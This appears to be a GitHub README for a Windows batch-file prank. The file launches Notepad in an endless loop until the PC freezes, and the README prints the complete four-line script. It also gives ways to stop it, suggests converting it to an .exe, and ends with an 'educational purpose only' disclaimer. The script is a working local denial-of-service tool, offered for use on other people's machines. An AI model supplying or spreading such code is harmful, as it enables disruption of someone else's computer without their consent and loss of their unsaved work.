 # About:
a BATCH ( .bat ) file that can crash , lag or freezes your Windows PC & Laptop with one click! , 
 
# Screenshots:

<img src="./shots/file.png" /> 

# How to Stop it:

- CTRL+Alt+Delete Combo , Then Sign-out from your local account.
- Try to punch it with cmd and taskill
- Just delete the file

# How the file made:

- It's just a quick code that start notepad.exe with an infinity loop.

```
@echo off
 :top
 start %SystemRoot%\system32\notepad.exe
 GOTO top
``` 
# What OS can run it:
- Actually Only **Windows** and i can say we can run it in an **Windows Vista** and highter

# Why the repo named:
- Idk , .exe is a common filename extension denoting an executable file for Windows and for our community it's creepy things lol

# Can convert it to .exe:
- Yes and works fine and tested by me , you can use some tools like https://www.battoexeconverter.com/ 


# Note:
 - This tutorial is for educational purpose only. It shows how the we can get pranked by our freinds or someone unknown If anyone do any illegal activity then im not responsible for that.

